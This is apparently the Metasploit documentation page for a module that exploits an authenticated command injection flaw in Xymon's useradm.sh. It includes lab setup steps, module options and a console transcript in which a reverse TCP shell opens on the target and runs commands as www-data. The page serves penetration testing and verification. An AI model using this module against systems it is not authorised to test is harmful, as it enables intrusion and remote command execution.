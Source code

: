 ## Description

  This module exploits a command injection vulnerability in Xymon
  versions before 4.3.25 which allows authenticated users
  to execute arbitrary operating system commands as the web
  server user.

  When adding a new user to the system via the web interface with
  `useradm.sh`, the user's username and password are passed to
  `htpasswd` in a call to `system()` without validation.


## Vulnerable Software

  [Xymon](http://xymon.sourceforge.net/) is a system for monitoring servers and networks.

  This module has been tested successfully on:

  * Xymon version 4.3.10 on Debian 6.

  Xymon packages are available in software repositories for various Linux distributions :

  ```
  sudo apt-get install xymon
  ```

  Refer to http://xymon.sourceforge.net/xymon/help/install.html for more information.

  A Xymon virtual appliance is also available :

  * https://sourceforge.net/projects/xymon/files/Xymon/4.3.10/VM/

  To enable authentication via the web interface, add a user to `/etc/xymon/xymonpasswd` :

  ```
  htpasswd /etc/xymon/xymonpasswd <username>
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/xymon_useradm_cmd_exec`
  3. Do: `set rhosts <IP>`
  4. Do: `set username <username>`
  5. Do: `set password <password>`
  6. Do: `run`
  7. You should get a new session


## Options

  **TARGETURI**

  The base path to Xymon secure CGI directory (default: `/xymon-seccgi/`)

  **USERNAME**

  The username for Xymon

  **PASSWORD**

  The password for Xymon


## Scenarios

  ```
  msf > use exploit/unix/webapp/xymon_useradm_cmd_exec 
  msf exploit(unix/webapp/xymon_useradm_cmd_exec) > set rhosts xymon.local
  rhosts => xymon.local
  msf exploit(unix/webapp/xymon_useradm_cmd_exec) > set username admin
  username => admin
  msf exploit(unix/webapp/xymon_useradm_cmd_exec) > set password password
  password => password
  msf exploit(unix/webapp/xymon_useradm_cmd_exec) > set verbose true
  verbose => true
  msf exploit(unix/webapp/xymon_useradm_cmd_exec) > check

  [*] 10.1.1.132:80 - Xymon version 4.3.10
  [*] 10.1.1.132:80 - The target appears to be vulnerable.
  msf exploit(unix/webapp/xymon_useradm_cmd_exec) > run

  [*] Started reverse TCP handler on 10.1.1.170:4444 
  [*] 10.1.1.132:80 - Xymon version 4.3.10
  [+] 10.1.1.132:80 - Payload sent successfully
  [*] Command shell session 1 opened (10.1.1.170:4444 -> 10.1.1.132:47682) at 2019-07-02 09:43:13 -0400

  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  pwd
  /usr/lib/xymon/cgi-secure
  ls
  ackinfo.sh
  acknowledge.sh
  criticaleditor.sh
  enadis.sh
  useradm.sh
  uname -a
  Linux xymon 2.6.32-5-686 #1 SMP Sun May 6 04:01:19 UTC 2012 i686 GNU/Linux
  ```

